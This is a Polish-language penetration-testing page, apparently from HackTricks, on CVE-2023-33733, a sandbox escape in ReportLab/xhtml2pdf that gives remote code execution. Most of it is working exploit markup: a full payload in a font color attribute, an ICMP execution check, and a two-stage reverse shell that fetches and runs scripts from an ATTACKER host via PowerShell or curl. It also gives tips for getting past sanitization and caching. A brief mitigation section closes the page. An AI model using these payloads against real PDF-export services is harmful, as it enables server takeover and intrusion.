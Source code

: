 # ReportLab/xhtml2pdf [[[...]]] expression-evaluation RCE (CVE-2023-33733)

{{#include ../../../banners/hacktricks-training.md}}

Ta strona dokumentuje praktyczny sandbox escape i prymityw RCE w rl_safe_eval ReportLab używanym przez xhtml2pdf i inne pipeline'y generujące PDF, gdy renderują HTML kontrolowany przez użytkownika do PDF.

CVE-2023-33733 dotyczy ReportLab w wersjach do i włączając 3.6.12. W pewnych kontekstach atrybutów (na przykład color), wartości opakowane w triple brackets [[[ ... ]]] są oceniane po stronie serwera przez rl_safe_eval. Poprzez spreparowanie payloadu, który pivotuje od białolistowanego builtin (pow) do jego funkcji Pythonowych globals, atakujący może dotrzeć do modułu os i wykonać polecenia.

Kluczowe punkty
- Trigger: wstrzyknięcie [[[ ... ]]] w oceniane atrybuty takie jak <font color="..."> w markupie parsowanym przez ReportLab/xhtml2pdf.
- Sandbox: rl_safe_eval zastępuje niebezpieczne builtiny, ale oceniane funkcje nadal ujawniają __globals__.
- Bypass: utworzyć przejściową klasę Word, by obejść sprawdzanie nazw rl_safe_eval i uzyskać dostęp do łańcucha "__globals__" unikając filtrowania dunderów.
- RCE: getattr(pow, Word("__globals__"))["os"].system("<cmd>")
- Stabilność: Zwrócić prawidłową wartość atrybutu po wykonaniu (dla color użyj and 'red').

Kiedy testować
- Aplikacje, które udostępniają eksport HTML→PDF (profile, faktury, raporty) i pokazują xhtml2pdf/ReportLab w metadanych PDF lub komentarzach odpowiedzi HTTP.
- exiftool profile.pdf | egrep 'Producer|Title|Creator' → "xhtml2pdf" producer
- Odpowiedź HTTP dla PDF często zaczyna się od komentarza generatora ReportLab

Jak działa obejście sandboxu
- rl_safe_eval usuwa lub zastępuje wiele builtinów (getattr, type, pow, ...) i stosuje filtrowanie nazw, aby odrzucać atrybuty zaczynające się od __ lub znajdujące się na denyliście.
- Jednak bezpieczne funkcje żyją w słowniku globals dostępnych jako func.__globals__.
- Użyj type(type(1)) aby odzyskać prawdziwą wbudowaną funkcję type (omijając wrapper ReportLab), następnie zdefiniuj klasę Word pochodzącą od str z zmienionym zachowaniem porównania tak, że:
- .startswith('__') → zawsze False (ominięcie sprawdzenia name startswith('__'))
- .__eq__ zwraca False tylko przy pierwszym porównaniu (ominięcie sprawdzeń członkostwa w denyliście) i True potem (żeby Python getattr działał)
- .__hash__ równa się hash(str(self))
- Dzięki temu getattr(pow, Word('__globals__')) zwraca dict globals opakowanej funkcji pow, który zawiera zaimportowany moduł os. Następnie: ['os'].system('<cmd>').

Minimalny schemat eksploatacji (przykład w atrybucie)
Umieść payload wewnątrz ocenianego atrybutu i upewnij się, że zwraca prawidłową wartość atrybutu przez boolean and 'red'.

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('ping 10.10.10.10') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
exploit
</font></para>

- Forma list-comprehension pozwala na pojedyncze wyrażenie akceptowalne przez rl_safe_eval.
- Końcowe and 'red' zwraca prawidłowy kolor CSS, więc renderowanie nie zostaje przerwane.
- Zastąp polecenie w razie potrzeby; użyj ping do weryfikacji wykonania przy pomocy tcpdump.

Operacyjny workflow
1) Zidentyfikuj generator PDF
- PDF Producer pokazuje xhtml2pdf; odpowiedź HTTP zawiera komentarz ReportLab.
2) Znajdź input odzwierciedlany w PDF (np. bio/profil/opis) i wywołaj eksport.
3) Zweryfikuj wykonanie niskoszumowym ICMP
- Uruchom: sudo tcpdump -ni <iface> icmp
- Payload: ... system('ping <your_ip>') ...
- Windows często wysyła dokładnie cztery echo requests domyślnie.
4) Ustanów shell
- Dla Windows, niezawodne podejście dwustopniowe unika problemów z cudzysłowami/kodowaniem:
- Stage 1 (pobranie):

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -c iwr http://ATTACKER/rev.ps1 -o rev.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font></para>

- Stage 2 (wykonanie):

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell ./rev.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font></para>

- Dla celów Linux, podobne dwustopniowe z curl/wget jest możliwe:
- system('curl http://ATTACKER/s.sh -o /tmp/s; sh /tmp/s')

Notatki i wskazówki
- Konteksty atrybutów: color jest znanym ocenianym atrybutem; inne atrybuty w markupie ReportLab mogą również oceniać wyrażenia. Jeśli jedno miejsce jest sanitizowane, spróbuj innych renderowanych lokalizacji w przepływie PDF (różne pola, style tabel, itd.).
- Cytowanie: Utrzymuj polecenia kompaktowe. Dwustopniowe pobrania znacznie redukują problemy z cytowaniem i escape'owaniem.
- Niezawodność: Jeśli eksporty są cachowane lub kolejkowane, nieznacznie zmieniaj payload (np. losowa ścieżka lub query), aby nie trafiać w cache.

Mitigacje i detekcja
- Uaktualnij ReportLab do 3.6.13 lub nowszego (CVE-2023-33733 naprawiony). Śledź również advisories bezpieczeństwa w pakietach dystrybucji.
- Nie podawaj HTML/markup kontrolowanego przez użytkownika bezpośrednio do xhtml2pdf/ReportLab bez ścisłej sanitacji. Usuń/odrzuć [[[...]]] konstrukty oceny i vendor-specific tagi, gdy input jest nieufny.
- Rozważ wyłączenie lub owinięcie użycia rl_safe_eval całkowicie dla nieufnych inputów.
- Monitoruj podejrzane połączenia wychodzące podczas generowania PDF (np. ICMP/HTTP z serwerów aplikacji podczas eksportu dokumentów).

References
- PoC and technical analysis: [c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)
- 0xdf University HTB write-up (real-world exploitation, Windows two-stage payloads): [HTB: University](https://0xdf.gitlab.io/2025/08/09/htb-university.html)
- NVD entry (affected versions): [CVE-2023-33733](https://nvd.nist.gov/vuln/detail/cve-2023-33733)
- xhtml2pdf docs (markup/page concepts): [xhtml2pdf docs](https://xhtml2pdf.readthedocs.io/en/latest/format_html.html)

{{#include ../../../banners/hacktricks-training.md}}

